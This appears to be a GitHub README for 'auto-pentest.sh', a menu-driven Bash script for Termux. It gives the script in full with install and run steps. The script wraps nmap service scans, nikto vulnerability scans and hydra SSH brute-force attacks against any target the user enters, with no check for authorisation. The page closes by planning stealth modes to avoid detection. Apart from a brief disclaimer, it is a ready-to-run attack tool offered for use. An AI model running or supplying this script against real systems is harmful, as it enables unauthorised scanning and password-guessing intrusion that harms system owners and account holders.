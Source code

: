 Fully automated penetration testing tool for Termux.This is a script that automates basic reconnaissance, vulnerability scanning, and brute-force attacks.

☕ Like my work? Buy me a coffee! → [paypal.me/RichCabo](https://paypal.me/RichCabo)


Features

✔️ Automated Reconnaissance – Scans target IPs for open ports and services.
✔️ Vulnerability Scanning – Uses nmap and nikto to find weaknesses.
✔️ Brute Force Attacks – Automates attacks on SSH, FTP, and web logins.
✔️ Logging & Reporting – Saves scan results for later review.
✔️ User-Friendly Menu – Runs in Termux with simple options.


Installation Requirements

Before running the script, install necessary tools in Termux:

pkg update && pkg upgrade -y
pkg install git python nmap hydra nikto -y


---

nano auto-pentest.sh

copy and paste below script.

chmod +x auto-pentest.sh

run with 
./auto-pentest.sh


Script: auto-pentest.sh

#!/bin/bash

# Automated Pentesting Script for Termux
# Author: RichCabo
# Disclaimer: Use for educational purposes only!

LOGFILE="pentest_results.txt"

# Function: Reconnaissance
recon() {
    echo "🔍 Running Recon on $1..."
    nmap -sV -A -T4 -oN recon_$1.txt $1
    echo "✔ Recon Complete! Results saved in recon_$1.txt"
}

# Function: Vulnerability Scanning
scan_vulnerabilities() {
    echo "🚨 Scanning $1 for vulnerabilities..."
    nikto -h $1 -output vuln_scan_$1.txt
    echo "✔ Vulnerability Scan Complete! Results saved in vuln_scan_$1.txt"
}

# Function: Brute Force Attack (SSH & FTP)
brute_force() {
    echo "🔥 Brute Force Attack on $1..."
    hydra -L user_list.txt -P pass_list.txt ssh://$1 -o brute_ssh_$1.txt
    echo "✔ Brute Force Complete! Results saved in brute_ssh_$1.txt"
}

# Menu
echo "=============================="
echo "   ⚡ Auto Pentest Tool ⚡   "
echo "=============================="
echo "1. Reconnaissance Scan"
echo "2. Vulnerability Scan"
echo "3. Brute Force Attack"
echo "4. Exit"
read -p "Choose an option: " choice

case $choice in
    1) read -p "Enter Target IP/Domain: " target; recon $target ;;
    2) read -p "Enter Target IP/Domain: " target; scan_vulnerabilities $target ;;
    3) read -p "Enter Target IP/Domain: " target; brute_force $target ;;
    4) exit ;;
    *) echo "❌ Invalid Option!"; exit ;;
esac


---

How to Run the Script in Termux

1. Save the script

nano auto-pentest.sh

Paste the script and press CTRL+X, then Y, and Enter to save.


2. Give Execution Permission

chmod +x auto-pentest.sh


3. Run the Script

./auto-pentest.sh




---

Security Disclaimer

This script is for educational purposes only. Using it on unauthorized systems is illegal and could result in criminal charges. Always get permission before running any penetration testing tool.


---


☕ Like my work? Buy me a coffee! → [paypal.me/RichCabo](https://paypal.me/RichCabo)

It inspires me to continue developing 

Add more automation (e.g., Metasploit integration).

Implement stealth modes to avoid detection.

Include AI-based attack predictions.


